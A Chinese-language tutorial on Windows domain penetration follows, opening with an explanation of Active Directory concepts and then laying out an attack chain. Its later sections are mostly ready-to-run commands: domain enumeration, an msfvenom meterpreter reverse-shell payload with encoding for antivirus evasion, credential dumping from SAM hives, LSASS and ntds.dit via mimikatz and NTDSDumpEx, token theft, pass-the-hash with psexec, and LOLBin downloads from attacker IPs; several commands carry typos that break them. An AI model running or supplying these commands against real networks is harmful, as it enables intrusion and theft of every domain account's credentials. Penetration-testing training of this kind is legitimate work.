

# 内网渗透之初识域渗透

## 0x01 初识域环境

### 一、什么是域

将网络中多台计算机逻辑上组织到一起，进行集中管理，这种区别于工作组的逻辑环境叫做域，域是组织与存储资源的核心管理单元，在域中，至少有一台域控制器，域控制器中保存着整个域的用户帐号和安全数据库。

<!--more-->

### 二、域的优点(为什么使用域)

那么域网络结构有什么优点呢？域的优点主要有以下几个方面：

#### 1、权限管理比较集中，管理成本降低

域环境中，所有的网络资源，包括用户均是在域控制器上维护的，便于集中管理，所有用户只要登入到域，均能在域内进行身份验证，管理人员可以较好的管理计算机资源，管理网络的成本大大降低；同时在域环境中也可以防止企业员工在域成员主机上违规安装软件，增强客户端安全性，减少客户端故障，降低维护成本。

#### 2、保密性加强

有利于企业的一些保密资料的管理，可以单独对资源进行权限控制，允许或拒绝特定的域账户对资源的请求。

#### 3、安全性加强

使用漫游账户和文件夹重定向，个人账户的工作文件及数据等可以存储在服务器上，进行统一备份及管理，使用户的数据更加安全有保障；同时域控制器能够分发应用程序、系统补丁，用户可以选择安装，也可以由系统管理员指派自动安装，数据及系统安全性大大提高。

#### 4、提高了便捷性

可由管理员指派登陆脚本映射，用户登录后就可以像使用本地盘符一样，使用网络上的资源，且不需要再次输入密码。

基于以上原因，很多企业的内网均会采用域环境，所以作为一名合格的渗透测试人员，域渗透的常规思路和技巧要熟练掌握。

### 三、域的基本名词解释

#### 1、域控制器（DC）

域控制器是指在“域”模式下，至少有一台服务器负责每一台联入网络的电脑和用户的验证工作，相当于一个单位的门卫一样，称为“域控制器（Domain Controller，简写为DC）”，简称域控。

域控制器( Domain controller，DC)是活动目录的存储位置,安装了活动目录的计算机称为域控制器。在第一次安装活动目录时,安装活动目录的那台计算机就成为域控制器,简称“域控”。域控制器存储着目录数据并管理用户域的交互关系,其中包括用户登录过程、身份验证和目录搜索等。一个域可以有多个域控制器。为了获得高可用性和容错能力,规模较小的域只需两个域控制器,一个实际使用,另一个用于容错性检査;规模较大的域可以使用多个域控制器。

#### 2、活动目录（Active Directory）

活动目录（Active Directory）是面向Windows Standard Server、Windows Enterprise Server以及 Windows Datacenter Server的[目录服务](https://baike.baidu.com/item/目录服务/10413830)。[活动目录服务](https://baike.baidu.com/item/活动目录服务/927529)是Windows Server 2000操作系统平台的中心组件之一。（Active Directory不能运行在Windows Web Server上，但是可以通过它对运行Windows Web Server的计算机进行管理。）

Active Directory存储了有关网络对象的信息，并且让管理员和用户能够轻松地查找和使用这些信息。目录包含了有关各种对象 [例如用户、用户组、计算机、域、组织单位（OU）以及安全策略] 的信息。Active Directory使用了一种结构化的数据存储方式，并以此作为基础对目录信息进行合乎逻辑的分层组织。

#### 3、域用户

域用户帐号是在域的domain users组中，本地用户账户在本地user组中。

在计算机加入域时，会把domain users组添加到user组中。因此对客户机来说，两者完全是一样的。

区别只在于当其他客户机也加入域时，也添加了domain users组，因此域用户帐号还可以访问其他客户机。 用户名和密码到域控制器验证，域账户可以在任意一台加入域的电脑上登陆，多台电脑也可以同时登陆一个用户。

#### 4、域管

登录到域控制器上，对一切权限进行控制，而不用到每一台域机器电脑前进行设置。

#### 5、域用户组

公司很多员工的权限都是相同的，那我们可以通过使用分组将不同的用户放入不同的分组，对这些相同的权限只需要设置一次，然后将改权限分配给该组。免去了对每个用户进行设置的麻烦。

##### 域组的类型

1. [安全组](https://baike.baidu.com/item/安全组)：主要用来设置权限用的。也可用在与安全无关的任务上，如：通过E-mail软件将E-mail发送给某个分布式组。

2. 分布式组：用在与安全无关的任务上。如：通过E-mail软件将E-mail发送给某个分布式组，（应用程序须支持AD才可使用分布式组）。无法设置分布式组的权限。

##### 域组的使用领域

从组的使用领域来分，win2003域组可分为以下三类：[全局组](https://baike.baidu.com/item/全局组)、本地域组、[通用组](https://baike.baidu.com/item/通用组)

1. [全局组](https://baike.baidu.com/item/全局组)：

- 成员范围：只能包含所属域内的用户和[全局组](https://baike.baidu.com/item/全局组)；
- 可访问资源范围：可以访问所有域的资源。

2. 本地域组

- 成员范围：所有域内的用户、[全局组](https://baike.baidu.com/item/全局组)、[通用组](https://baike.baidu.com/item/通用组)，所属域内的本地域组；
- 可访问资源范围：只可访问所属域的资源。

3. [通用组](https://baike.baidu.com/item/通用组)

- 成员范围：所有域内的用户、[全局组](https://baike.baidu.com/item/全局组)、[通用组](https://baike.baidu.com/item/通用组)；
- 可访问资源范围：可以访问所有域的资源。

注：1）域功能级别为win2000混合模式时不支持[通用组](https://baike.baidu.com/item/通用组)；2）域功能级别为win2000混合模式时不支持[全局组](https://baike.baidu.com/item/全局组)嵌套。

#### 6、信任域

在很多实际情况中，一个又有下面的子公司，所以就造成母公司有一个域，子公司有也有一个单独的域。母公司的域与子公司的域如何联系起来呢？我们可以在它们之间建立一种叫信任( Trust)的关系。如果母公司的帐户想要能够登录到子公司的域中，子公司的域就要对母公司的减建立信任关系。当母公司域的帐户想要登录到子公司域中时，子公司域由于信任母公司的域，所以它会听从从母公司域的域控制器返回的 access key。反过来,由于母公司的域没有建立对子公司的信任，所以如果子公司的帐户想要登录到母公司的域中是不可能的

/ domain trusts返回受信任域的列表

## 0x02 域信息收集

### 一、nltes查询信任域

信任域：可以在工作组里查询，查询内网里是否有域环境

`nltest /domain_trusts /all_trusts /v /server:192.168.52.2` 

返回所有信任192.168.52.2的域

`nltest /dsgetdc:XXXX /server:192.168.52.2`

返回域控和其相应的IP地址，XXXX是上一步结果中的一个域


### 二、域环境信息收集

#### 1、Csvde

Csvde是windows Server 2008 的内置命令行工具，位于%windir%/system32文件夹中，如果您安装了AD DS或Activity Directory轻型目录服务（AD LDS）服务器角色，则此功能可用

适用于：Windows Server 2003，Windows Server 2008，Windows Server 2003 R2，Windows Server 2008 R2，Windows Server 2012，带有SP1，Windows 8的Windows Server 2003

`csvde -setspn domain-f c:\domain.scv`， `domain` 是域名称，`c:\domain.scv`是保存路径和文件格式


- LDAP的存储规则
- 区分名（DN，Distinguished Name）一个条目的区分名称叫做“dn”或者叫做区分名。在一个目录中这个名称总是唯一的。
- CN=Common Name 为用户名或服务器名，最长可以到80个字符，可以为中文；
- OU=Organization Unit为组织单元，最多可以有四级，每级最长32个字符，可以为中文；
- O=Organization为组织名，可以3-64个字符长
- C=Country为国家名，可选，为2个字符长


#### 2、Setspn

`setspn -T hack -Q */*`

SPN官方名称即为“服务主体名称”，本质上存的就是域内各种服务资源的对应关系（对应的服务类型、机器名称、服务端口等）

借助SPN快速定位当前目标域中所有存活的各类服务器


#### 3、Dnsdump

```
dnsdump.exe -u 域名\域用户 -p 域密码 域孔机器名
dnsdump.exe -u hack\iis_user -p 1qaz@WSX windows_server_2016_dc -r
```


4 、Net

```
net user /domain						获取用户列表
net group "domain admin" /domain		获取与管理员列表
net group "domain controllers" /domain	查看域控制器（数量）
net group "domain computers" /domain 	查看域机器
net group /domain 						查询域里面的组
```


```
net view				查看同一域内机器列表
net view \\ip			查看某IP共享
net view \\GHQ			查看GHQ计算机的共享资源列表
net view /domain		查看内网存在多少个域
net view /domain:XYZ	查看XYZ域中的机器列表
```


#### 4、nbtscan

`nbtscan.exe 192.168.52.0/24`


## 0x03 域渗透思路

### 一、渗透思路

横向渗透 - > 权限维持 - >取密码(获取一个域用户账号密码)  - >域信息收集 - >横向渗透 - >取密码 - >获取域管权限 - >拿下域控服务器

横向渗透的思路（适用于工作组渗透和域渗透）




### 二、权限维持

#### 1、DLL文件加载shellcode免杀上线

```shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp_uuid LPORT=9999 LHOST=192.168.1.1 -e X86/shikata_ga_nai -i 11 -f c -o shellcode.c


msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost 192.168.1.1
msf > set lport 8888
msf > set EnableStageEncodeing true
msf > set StageEncoder X86/fnstenv_mov
msf > exploit
```

生成的shellcode放入下图代码中标记的位置


编译生成dll执行，成功上线


#### 2、注册表读取密码

正常我们一般使用mimikatz读取密码，但是一般查毒软件都会查杀，下面我们通过注册表读取密码绕过查杀

```
// 获取注册表信息
reg save HKLM\SYSTEM c:\windows\temp\Sys.hiv
reg save HKLM\SAM c:\windows\temp\Sam.hiv

// 获取注册表密码文件后下载至本机

// mimikatz运行解密命令获取hash NTLM ,然后通过MD5解密
mimikatz.exe
lsadump::sam /sam:Sam.hiv /system:Sys.hiv
```


#### 3、Lsass读取内存hash

lsass进程获取内存hash，lsass.exe进程会保存机器登录过的用户密码（2008之前密码是明文存储，2012和2016都是密文hash存储）

```
// 在目标机器上执行procdump.exe
procdumo.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp

// 在mimikatz中运行 结果保存在日志中
mimikatz.exe "sekurlas::minidump lsass.dmp" "log" "sekulsa::logonpasswords"
```

Win2012演示如下：


Win2008演示如下：


#### 4、LaZagne工具获取密码

LaZagne取各种连接工具密码、浏览器保存密码等

下载地址：`https://github.com/AlessandroZ/LaZagne`


#### 5、凭证窃取

通过tasklist /v查看进程用户，如果有域用户开启的进程，则可以通过凭证窃取域用户的进程

登录一台机器本地账户发现机器运行如下域用户进行


通过incognito工具窃取凭据

下载地址1：`https://github.com/FSecureLABS/incognito`

下载地址2：`https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip`

```
incognito.exe list_tokens -u
incognito.exe execute -c "HACK\Administrator" cmd.exe
```


#### 6、命令行渗透

##### a、为什么命令行渗透？

- 远程登陆桌面增加暴露风险；
- 目标管理员可能对服务器禁用远程登陆。

##### b、建立IPC连接执行命令

- 可以访问目标机器的文件（上传、下载），也可以在目标机器上运行命令。
- 上传和下载文件直接通过copy命令就可以，不过路径换成UNC路径。
- 何为UNC路径？简单来讲以\开头的路径就是UNC路径，比如\192.168.1.2\c$\users。

如果要从本地当前目录上传1.bat到192.168.1.2机器C盘根目录下，那么命令就是

`copy 1.bat \\192.168.1.2\C$\`

反之就是下载

dir、copy、xcopy、move、type的参数都可使用UNC路径

```
net use \\192.168.52.2 /u:hack\adminidtrator Windows2019***		建立IPC连接
copy sbn.exe \\192.168.52.2\C$\windows\temp						复制本地文件到目标服务器
copy \\192.168.52.2\C$\windows\temp\hash.txt					复制目标服务器文件到本地
```


##### c 、Schtasks计划任务执行命令

推荐用schtasks计划任务

```shell
// 创建计划任务
schtasks /create /tn taskName /U 域\域用户 /P 域用户密码 /tr 执行的命令或者bat路径  /sc ONSTART /s 域机器IP /RU system

// 运行计划任务
schtasks /run /tn taskName /s 域机器IP /U 域\域用户 /P 域用户密码

// 删除计划任务
schtasks /F /delete /tn taskName /s 域机器IP /U 域\域用户  /P  域用户密码
```


##### d、psexec执行命令

```
// 建立IPC连接

net use \\192.168.52.2 /u:DomainName\UserName password*

psexec.exe \\192.168.52.2 -s cmd.exe -accepteula
```

-accepteula 	第一次运行会弹框，输入这个参数便不会弹框

-s 	以“nt authority\system”权限运行远程进程

- hash传递攻击

//当hash没有解出来的时候，可以使用hash传递攻击

```
psexec.exe -hashes :用户hash 域名/用户名@目标IP

psexec.exe -hashes:70a50724b37f6d3d03d00c24e946fde3 hack/administrator@192.168.52.2
```


##### e、命令行下载文件

1 - powershell(win2003、 winXP不支持)

```
power -exec bypass -c (new-object SystemNet.webctient).Downloadfie('http://192.168.1.101/test.txt','c:\test.txt')
```

2 - certutil

```
certutil.exe -urlcache -split -f http://192.168.1.1/test.txtfile.txt
```

3 - bitadmin

```
bitsadmin /rawreturn /transfer getfile http://192.168.3.1/test.txt E:\file\test.txt
bitsadmin /rawreturn /transfer getpayload http://192.168.3.1/test.txt E:\file\test.txt
```

4 - msiexec

```
msiexec /q /i http://192.168.1.1/test.txt
```

5 - IEExec

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off
C:\Windows\microsoft.NET\Framework\v2.0.50727> IEExec.exe http://192.168.1.1/test.exe
```

#### 7、获取内网代理

内网有些资源可能需要挂指定代理才可以访问：

- ie代理
- pac代理

```
// 直接查询HKEY_CURRENT_USER(ie 代理)
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
```


```
// 直接查询HKEY_CURRENT_USER(pac 代理)
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL
```


#### 8、windows api使用

利用API 写成一些小工具。所有工具使用前提：建立IPC连接。

工具名称：（这些Exe的名字，也都是api的名字）

NetGroupGetUsers.exe：查询域里的各个组里的成员，IP必须是域控IP，域用户随意。

NetLocalGroupGetMembers.exe:查询目标服务器本地管理组的成员。

NetUserEnum.exe:查询目标服务器所有用户，包括隐藏用户。


#### 9、导出域hash

Windows的密码是经过hash后存储的，本地存在hklm\sam，hklm\system注册表中

域里面存在域控制器的c:\windows\ntds\ntds.dit中，我们取出来解密即可

ntds.dit其实就是个esent数据库，微软本身就有一系列的文档化api能够操作这个数据库

`https://msdn.microsoft.com/en-us/library/windows/desktop/gg294074.aspx`

```
// 第一步：创建快照 获取｛｝中的ID,必须在域控服务器上操作
ntdsutil snapshot "activate instance ntds" create quit quit

// 第二步：挂载快照
ntdsutil snapshot "mount {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第三步：复制ntds.dit
copy C:\$SNAP_201910121047_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

// 第四步：卸载快照
ntdsutil snapshot "unmount {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第五步：删除快哉
ntdsutil snapshot "delete {8a8db83f-dad7-b61d-ef272a3a483f}" quit quit

// 第六步：获取key
reg save HKLM\SYSTEM c:\windows\temp\Sys.hiv

// 第七步：使用NTDSDumpEx获取所有域用户的Hash
NTDSDumpEx.exe -d ntds.dit -o hash.txt -s Sys.hiv -h
```


最后成功获取当前域控中所有域账户和密码


## 0x04 参考资料

[漏洞银行丨内网渗透之初识域渗透-ske丨咖面105期](https://www.bilibili.com/video/BV19J411R7aS)